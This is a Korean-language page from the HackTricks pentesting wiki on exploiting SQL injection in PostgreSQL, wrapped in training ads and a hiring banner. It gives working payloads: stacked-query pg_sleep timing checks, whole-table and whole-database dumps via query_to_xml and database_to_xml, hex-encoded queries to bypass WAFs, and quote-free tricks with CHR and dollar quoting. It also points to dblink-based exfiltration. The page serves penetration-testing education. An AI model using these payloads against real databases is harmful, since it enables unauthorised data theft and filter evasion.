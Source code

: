 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_유창한 폴란드어 필기 및 구사 필요_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**이 페이지는 PostgreSQL 데이터베이스에서 발견된 SQL 인젝션을 악용하는 데 도움이 될 수 있는 다양한 트릭을 설명하고,** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **에서 찾을 수 있는 트릭을 보완하는 것을 목표로 합니다.**

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL 모듈 `dblink`**는 다른 PostgreSQL 인스턴스에 연결하고 TCP 연결을 실행하는 기능을 제공합니다. 이러한 기능은 `COPY FROM` 기능과 결합되어 권한 상승, 포트 스캐닝 및 NTLM 챌린지 응답 캡처와 같은 작업을 가능하게 합니다. 이러한 공격을 실행하는 방법에 대한 자세한 내용은 [이 공격을 수행하는 방법](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)을 확인하세요.

### **dblink 및 대용량 객체를 사용한 데이터 유출 예제**

[**이 예제**](dblink-lo\_import-data-exfiltration.md)를 읽어보면 **대용량 객체 내에 데이터를 로드한 다음 `dblink_connect` 함수의 사용자 이름 내에서 대용량 객체의 내용을 유출하는 방법**에 대한 CTF 예제를 볼 수 있습니다.

## PostgreSQL Attacks: Read/write, RCE, privesc

PostgreSQL에서 호스트를 손상시키고 권한을 상승시키는 방법을 확인하세요:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL 문자열 함수

문자열을 조작하면 **WAF 또는 기타 제한을 우회하는 데 도움이 될 수 있습니다**.\
[**이 페이지**](https://www.postgresqltutorial.com/postgresql-string-functions/)**에서 유용한 문자열 함수를 찾을 수 있습니다.**

### Stacked Queries

PostgreSQL은 스택 쿼리를 지원하지만, 여러 응용 프로그램은 1개의 응답만 예상할 때 2개의 응답이 반환되면 오류를 발생시킵니다. 그러나 시간 주입을 통해 여전히 스택 쿼리를 악용할 수 있습니다:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML 트릭

**query\_to\_xml**

이 함수는 모든 데이터를 XML 형식으로 단일 파일에 반환합니다. 많은 데이터를 단 1행으로 덤프하려는 경우에 이상적입니다:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

이 함수는 전체 데이터베이스를 XML 형식으로 단 1행에 덤프합니다(데이터베이스가 매우 클 경우 DoS 공격을 하거나 심지어 자신의 클라이언트에 영향을 줄 수 있으니 주의하세요):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

만약 **쿼리**를 **문자열 안에** 전달할 수 있다면 (예를 들어 **`query_to_xml`** 함수를 사용하여). **convert\_from을 사용하여 문자열을 헥사로 전달하고 이렇게 필터를 우회할 수 있습니다:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### 금지된 따옴표

페이로드에 따옴표를 사용할 수 없는 경우, 기본 절을 위해 `CHR`를 사용하여 우회할 수 있습니다 (_문자 연결은 SELECT, INSERT, DELETE 등과 같은 기본 쿼리에만 작동합니다. 모든 SQL 문에 대해 작동하지 않습니다_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
또는 `$`를 사용하여. 이 쿼리는 동일한 결과를 반환합니다:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **우리는 인재를 모집합니다!** (_유창한 폴란드어 필기 및 구사 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
